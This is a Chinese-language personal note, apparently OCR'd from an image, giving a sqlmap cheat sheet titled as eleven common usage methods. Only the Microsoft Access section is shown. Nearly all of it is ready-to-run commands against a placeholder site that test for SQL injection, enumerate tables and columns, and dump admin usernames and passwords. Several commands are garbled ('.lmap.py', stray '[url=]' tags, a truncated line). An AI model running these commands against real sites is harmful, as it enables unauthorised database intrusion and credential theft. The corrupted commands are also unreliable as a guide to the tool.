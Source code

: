```yaml
---
date: 2022-07-04-星期一 09:52:15
update: 
tags: [time/year2022,time/month07]
id: 20220704095215
---
```


# 11种常见SQLmap使用方法



> sqlmap也是渗透中常用的一个注入工具，其实在注入工具方面，一个sqlmap就足够用了，只要你用的熟，秒杀各种工具，只是一个便捷性问题，sql注入另一方面就是手工党了，这个就另当别论了。今天把我一直以来整理的sqlmap笔记发布上来供大家参考。

表内查找字段 从数据库中搜索字段-
**sqlmap -r “c:\\tools\\request.txt” –dbms mysql -D dedecms - -search -C admin,password --dump**

-
一共有11种常见SQLmap使用方法：

### 一、SQLMAP用于Access数据库注入

(1) 猜解是否能注入

`win``:` `python sqlmap.py` `-``u` `"[http://www.xxx.com/en/CompHonorBig.asp?id=7](http://www.xxx.com/en/CompHonorBig.asp?id=7)"`

`Linux` `:` `.lmap.py` `-``u` `"[http://www.xxx.com/en/CompHonorBig.asp?id=7](http://www.xxx.com/en/CompHonorBig.asp?id=7)"`

(2) 猜解表


`win``:` `python sqlmap.py` `-``u` `"[http://www.xxx.com/en/CompHonorBig.asp?id=7](http://www.xxx.com/en/CompHonorBig.asp?id=7)"` `--tables`

`Linux``:` `.lmap.py` `-``u` `"[http://www.xxx.com/en/CompHonorBig.asp?id=7](http://www.xxx.com/en/CompHonorBig.asp?id=7)"` `--tables`

(3) 根据猜解的表进行猜解表的字段(假如通过2得到了admin这个表)

`win``:` `python sqlmap.py` `-``u` `"[http://www.xxx.com/en/CompHonorBig.asp?id=7](http://www.xxx.com/en/CompHonorBig.asp?id=7)"` `--columns -T admin`

`Linux``:` `.lmap.py` `-``u` `"[http://www.xxx.com/en/CompHonorBig.asp?id=7](http://www.xxx.com/en/CompHonorBig.asp?id=7)"` `--columns -T admin`

(4) 根据字段猜解内容(假如通过3得到字段为username和password)

`win``:` `python sqlmap.py` `-``u` `"[http://www.xxx.com/en/CompHonorBig.asp?id=7](http://www.xxx.com/en/CompHonorBig.asp?id=7)"` `--dump -T admin -C "username,password"`

`Linux``:` `.lmap.py` `-``u` `"[http://www.xxx.com/en/CompHonorBig.asp?id=7](http://www.xxx.com/en/CompHonorBig.asp?id=7)"` `--dump -T admin -C`

`"username,[url=]B[/url]password"`
